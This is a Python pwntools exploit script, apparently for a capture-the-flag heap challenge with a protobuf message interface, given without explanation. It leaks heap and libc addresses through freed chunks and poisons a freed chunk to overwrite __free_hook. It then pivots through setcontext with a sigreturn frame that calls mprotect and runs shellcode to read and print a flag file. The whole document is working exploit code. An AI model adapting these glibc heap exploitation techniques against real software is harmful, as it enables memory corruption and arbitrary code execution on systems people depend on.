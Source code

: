```python
uu32 = lambda data: u32(data.ljust(4, '\x00'))
uu64 = lambda data: u64(data.ljust(8, '\x00'))

loginfo = lambda tag, addr: log.success(tag + " -> " + hex(addr))
cont = pp_pb2.devicemsg()
def add(idx,size,mem):
    cont.actionid=2
    cont.msgidx=idx*2
    cont.msgsize=size
    cont.msgcontent=mem
    sa("now:",cont.SerializeToString())
def delete(idx):
    cont.actionid = 8
    cont.msgidx = idx * 2
    cont.msgsize=4
    cont.msgcontent='a'
    sa("now:",cont.SerializeToString())
def show(idx):
    cont.actionid = 6
    cont.msgidx = idx * 2
    sa("now:",cont.SerializeToString())
def edit(idx,size,mem):
    cont.actionid = 4
    cont.msgidx = idx * 2
    cont.msgsize = size
    cont.msgcontent = mem
    sa("now:", cont.SerializeToString())
for i in range(9):
    add(i+1,0x80,'a'*0x80)
for i in range(9,0,-1):
    delete(i)
show(2)
ru('\n')
p.recv(0x38)
heapaddr=u64(p.recv(6).ljust(8,'\x00'))-0x540
loginfo("heap",heapaddr)
p.recv(0x1a)
libcbase=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc10
loginfo("libc",libcbase)
freehook=libcbase+libc.sym['__free_hook']
setcontext=libcbase+libc.sym['setcontext']

gadget=0x0000000000151990+libcbase
edit(3,0x20,p64(freehook))
add(11,0x80,p64(gadget).ljust(0x80,'\x00'))
frame = SigreturnFrame()
mprotect=libcbase+libc.sym['mprotect']
flagaddr=heapaddr+0x2000
shellcode=shellcraft.open('flag',0,0)
shellcode+=shellcraft.read(3,flagaddr,0x50)
shellcode+=shellcraft.write(1,flagaddr,0x50)

frame.rsp = heapaddr+0x1618
frame.rdi=heapaddr+0x1000
frame.rsi=0x1000
frame.rdx=7
frame.rip = mprotect
print("len->"+hex(len(str(frame))))
add(12,0xf0,p64(setcontext+61)+p64(heapaddr+0x1500-0x40)+str(frame)[0x30:0x110])
conts="flag"+"\x00"*4+p64(heapaddr+0x1620)+asm(shellcode)
add(13,len(conts),conts)
#dbg()
delete(12)
```